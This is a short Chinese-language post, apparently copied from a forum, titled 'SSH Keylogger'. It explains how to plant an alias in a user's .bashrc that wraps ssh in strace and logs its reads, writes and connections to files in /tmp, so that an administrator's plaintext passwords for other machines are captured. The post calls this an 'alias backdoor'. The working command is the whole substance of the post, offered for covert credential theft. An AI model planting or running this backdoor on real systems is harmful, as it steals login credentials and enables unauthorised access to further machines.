


# SSH Keylogger

> 原文：[https://www.zhihuifly.com/t/topic/3488](https://www.zhihuifly.com/t/topic/3488)

# SSH Keylogger

利用strace系统调试工具获取ssh的读写连接的数据，以达到抓取管理员登陆其他机器的明文密码的作用。

在当前用户的.bashrc里新建一条alias、这样可以抓取他登陆其他机器的ssh密码。算是alias后门。后面会在讲一下alias后门。

```
alias ssh='strace -o /tmp/sshpwd-`date '+%d%h%m%s'`.log -e read,write,connect -s2048 ssh' 
```



